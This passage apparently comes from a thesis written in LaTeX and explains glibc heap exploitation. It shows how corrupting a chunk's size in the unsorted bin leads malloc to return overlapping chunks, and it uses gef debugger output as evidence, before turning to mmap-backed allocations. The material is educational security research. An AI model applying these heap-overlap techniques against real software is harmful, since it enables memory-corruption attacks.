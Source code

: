\documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\mmapc{\lstinline{mmap}\xspace}
\begin{document}
As you remember, currently, p2 located at the \ub{}, also, we change the size of p2, so, the heap manager return p2 when receives an allocation request, as the result, p2 has overlap with previous chunks:

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef: p p4
$11 = (intptr_t *) 0x555555559110
gef: p p2
$12 = (intptr_t *) 0x555555559110
gef: p p1
$13 = (intptr_t *) 0x555555559010
gef: p p3
$14 = (intptr_t *) 0x555555559210
 \end{lstlisting}

As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application. Now the p3 and p4 have overlap, so, write data on one of them overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system uses \mmapc{} in this scenario. Take consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
int* ptr1 = malloc(0x10);
long long* top_ptr = malloc(0x100000);
long long* mmap_chunk_2 = malloc(0x100000);
long long* mmap_chunk_3 = malloc(0x100000);
 \end{lstlisting}

heap layout after allocation

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x20, flags=PREV_INUSE)
 [0x0000555555559010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................]
Chunk(addr=0x555555559030, size=0x410, flags=PREV_INUSE)
 [0x0000555555559030 0a 43 75 72 72 65 6e 74 20 53 79 73 74 65 6d 20 .Current System ]
Chunk(addr=0x555555559440, size=0x20bd0, flags=PREV_INUSE) top chunk
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef: p mmap_chunk_2
$1 = (long long *) 0x7ffff7935010
gef: p mmap_chunk_3
$2 = (long long *) 0x7ffff7834010
gef: p top_ptr
$3 = (long long *) 0x7ffff7ef2010
 \end{lstlisting}
\end{document}
